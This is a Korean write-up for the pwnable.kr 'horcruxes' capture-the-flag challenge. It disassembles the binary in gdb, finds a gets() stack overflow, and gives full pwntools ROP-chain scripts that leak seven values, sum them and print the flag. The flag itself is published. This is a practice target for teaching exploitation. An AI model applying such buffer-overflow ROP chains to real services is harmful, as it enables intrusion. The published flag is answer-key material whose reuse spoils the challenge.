




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

readme를 읽어보자.

```sh
horcruxes@pwnable:~$ cat readme
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.
```

horcruxes를 실행시켜 어떻게 돌아가는 지 파악해보자.

```sh
horcruxes@pwnable:~$ ./horcruxes
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:1
How many EXP did you earned? : 9999999
You'd better get more experience to kill Voldemort
```

gdb 를 사용하여 horcruxes를 살펴보자.

```sh
horcruxes@pwnable:~$ gdb ./horcruxes
... 생략 ...
(gdb) disas main
... 생략 ...
   0x0809ff6a <+70>:    call   0x80a0324 <hint>
   0x0809ff6f <+75>:    call   0x80a0177 <init_ABCDEFG>
... 생략 ...
   0x0809fffc <+216>:   call   0x80a0009 <ropme>
   0x080a0001 <+221>:   mov    -0x4(%ebp),%ecx
---Type <return> to continue, or q <return> to quit---
   0x080a0004 <+224>:   leave
   0x080a0005 <+225>:   lea    -0x4(%ecx),%esp
   0x080a0008 <+228>:   ret
End of assembler dump.
```

hint의 내용은 모든 horcruxes를 찾고 볼드모트를 죽이라는 문구이다.

```sg
(gdb) b *main+75
Breakpoint 1 at 0x809ff6f
(gdb) r
Starting program: /home/horcruxes/horcruxes
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!


Breakpoint 1, 0x0809ff6f in main ()
```

init_ABCDEFG의 내용을 살펴보면 /dev/urandom에서 4byte를 읽고 srand의 파라미터로 넘긴다.

그 이후 rand함수 호출을 통해 0xdeadbeef와 0xcafebabe를 가지고 어떤 연산을 행한다.

이를 7개의 변수에 각각 저장한다.

```sh
(gdb) disas init_ABCDEFG
Dump of assembler code for function init_ABCDEFG:
... 생략 ...
   0x080a0182 <+11>:    push   $0x80a0577
   0x080a0187 <+16>:    call   0x809fcc0 <open@plt>
... 생략 ...
   0x080a0197 <+32>:    lea    -0x10(%ebp),%eax
   0x080a019a <+35>:    push   %eax
   0x080a019b <+36>:    pushl  -0xc(%ebp)
   0x080a019e <+39>:    call   0x809fc30 <read@plt>
... 생략 ...
   0x080a01d3 <+92>:    mov    -0x10(%ebp),%eax
   0x080a01d6 <+95>:    sub    $0xc,%esp
   0x080a01d9 <+98>:    push   %eax
   0x080a01da <+99>:    call   0x809fcd0 <srand@plt>
... 생략 ...
   0x080a01e2 <+107>:   call   0x809fd00 <rand@plt>
   0x080a01e7 <+112>:   imul   $0xdeadbeef,%eax,%edx
   0x080a01ed <+118>:   cmp    $0xcafebabe,%edx
   0x080a01f3 <+124>:   setae  %al
... 생략 ...
(gdb) x/10x 0x80a0577
0x80a0577:      0x7665642f      0x6172752f      0x6d6f646e      0x65642f00
```

이후 ropme함수를 살펴보면 정수를 입력받고, 그 값이 A와 같으면 A함수를 호출한다.

```sh
(gdb) disas ropme
Dump of assembler code for function ropme:
... 생략 ...
   0x080a0022 <+25>:    lea    -0x10(%ebp),%eax
   0x080a0025 <+28>:    push   %eax
   0x080a0026 <+29>:    push   $0x80a0519
   0x080a002b <+34>:    call   0x809fd10 <__isoc99_scanf@plt>
   0x080a0030 <+39>:    add    $0x10,%esp
   0x080a0033 <+42>:    call   0x809fc70 <getchar@plt>
   0x080a0038 <+47>:    mov    -0x10(%ebp),%edx
... 생략 ...
   0x080a0038 <+47>:    mov    -0x10(%ebp),%edx
   0x080a003b <+50>:    mov    0x80a2088,%eax
   0x080a0040 <+55>:    cmp    %eax,%edx
   0x080a0042 <+57>:    jne    0x80a004e <ropme+69>
   0x080a0044 <+59>:    call   0x809fe4b <A>
... 생략 ...
(gdb) x/x 0x80a0519
0x80a0519:      0x48006425 = %d
```

A함수는 rand함수의 결과와 고정값과 연산한 값이 저장된 변수중 어떤 1개를 출력한다.

```sh
(gdb) disas A
Dump of assembler code for function A:
   0x0809fe4b <+0>:     push   %ebp
   0x0809fe4c <+1>:     mov    %esp,%ebp
   0x0809fe4e <+3>:     sub    $0x8,%esp
   0x0809fe51 <+6>:     mov    0x80a2088,%eax
   0x0809fe56 <+11>:    sub    $0x8,%esp
   0x0809fe59 <+14>:    push   %eax
   0x0809fe5a <+15>:    push   $0x80a03d0
   0x0809fe5f <+20>:    call   0x809fc40 <printf@plt>
   0x0809fe64 <+25>:    add    $0x10,%esp
   0x0809fe67 <+28>:    nop
   0x0809fe68 <+29>:    leave
   0x0809fe69 <+30>:    ret
End of assembler dump.
```

그 이후 gets함수를 통해 길이 제한 없이 입력 받고 해당 값을 atoi함수를 통해 정수로 변환한 뒤 어떤 값과 비교한다.

```sh
... 생략 ... (disas ropme)
   0x080a00e5 <+220>:   lea    -0x74(%ebp),%eax
   0x080a00e8 <+223>:   push   %eax
   0x080a00e9 <+224>:   call   0x809fc50 <gets@plt>
   0x080a00ee <+229>:   add    $0x10,%esp
   0x080a00f1 <+232>:   sub    $0xc,%esp
   0x080a00f4 <+235>:   lea    -0x74(%ebp),%eax
   0x080a00f7 <+238>:   push   %eax
---Type <return> to continue, or q <return> to quit---
   0x080a00f8 <+239>:   call   0x809fd20 <atoi@plt>
   0x080a00fd <+244>:   add    $0x10,%esp
   0x080a0100 <+247>:   mov    %eax,%edx
   0x080a0102 <+249>:   mov    0x80a2078,%eax
   0x080a0107 <+254>:   cmp    %eax,%edx
   0x080a0109 <+256>:   jne    0x80a0160 <ropme+343>
... 생략 ...
```

gdb로 보기 힘드니 ida를 통해서 보면 어떤값과 비교하는 지 알 수 있다. 먼저 파일을 다운받자.

```sh
scp -P 2222 horcruxes@pwnable.kr:horcruxes ./
horcruxes@pwnable.kr's password:
horcruxes                                                                             100%   12KB  49.6KB/s   00:00
```

ropme함수에서 비교되는 데이터는 sum이라 칭해진다.



이는 init_ABCDEFG함수에서 7개의 변수들의 합과 같다.



gets에서 overflow를 일으켜서 A ~ G함수를 호출하여 각 변수들을 구하고, 다시 ropme함수를 호출해서 구한 값들을 더해서 전달하자.

먼저 ret전까지 전달해야할 더미 크기는 ebp - 0x74 + sfp만큼이다.



먼저 A ~ G까지 함수의 출력 포맷부터 알아보자.

```python
from pwn import *

s = ssh(user='horcruxes', host='pwnable.kr', port=2222, password='guest')
p = s.process("./horcruxes")

p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')

A = 0x0809fe4b
B = 0x0809fe6a
C = 0x0809fe89
D = 0x0809fea8
E = 0x0809fec7
F = 0x0809fee6
G = 0x0809ff05
ropme = 0x080a0009

payload = b'A' * (0x74 + 0x4)
payload += p32(A)
payload += p32(B)
payload += p32(C)
payload += p32(D)
payload += p32(E)
payload += p32(F)
payload += p32(G)
payload += p32(ropme)

p.sendline(payload)

p.interactive()

[Output]
... 생략 ...
You found "Tom Riddle's Diary" (EXP +2136229604)
You found "Marvolo Gaunt's Ring" (EXP +111881215)
You found "Helga Hufflepuff's Cup" (EXP +-1844281036)
You found "Salazar Slytherin's Locket" (EXP +-1596319302)
You found "Rowena Ravenclaw's Diadem" (EXP +1323649)
You found "Nagini the Snake" (EXP +965453206)
You found "Harry Potter" (EXP +-1413062383)
... 생략 ...
```

FLAG를 획득하자.

```python
from pwn import *

p = remote("pwnable.kr", 9032)

p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')

A = 0x0809fe4b
B = 0x0809fe6a
C = 0x0809fe89
D = 0x0809fea8
E = 0x0809fec7
F = 0x0809fee6
G = 0x0809ff05
ropme = 0x0809fffc

payload = b'A' * (0x74 + 0x4)
payload += p32(A)
payload += p32(B)
payload += p32(C)
payload += p32(D)
payload += p32(E)
payload += p32(F)
payload += p32(G)
payload += p32(ropme)

p.sendline(payload)

p.recvuntil('You\'d better get more experience to kill Voldemort\n')
sum = 0
for i in range(7):
    data = p.recvuntil(')\n').decode().strip()
    sum += int(data[data.find('+')+len('+'):data.rfind(')')])

p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')
p.sendline(str(sum))
p.interactive()

[Output]
Magic_spell_1s_4vad4_K3daVr4!
```


# **FLAG**

**Magic_spell_1s_4vad4_K3daVr4!**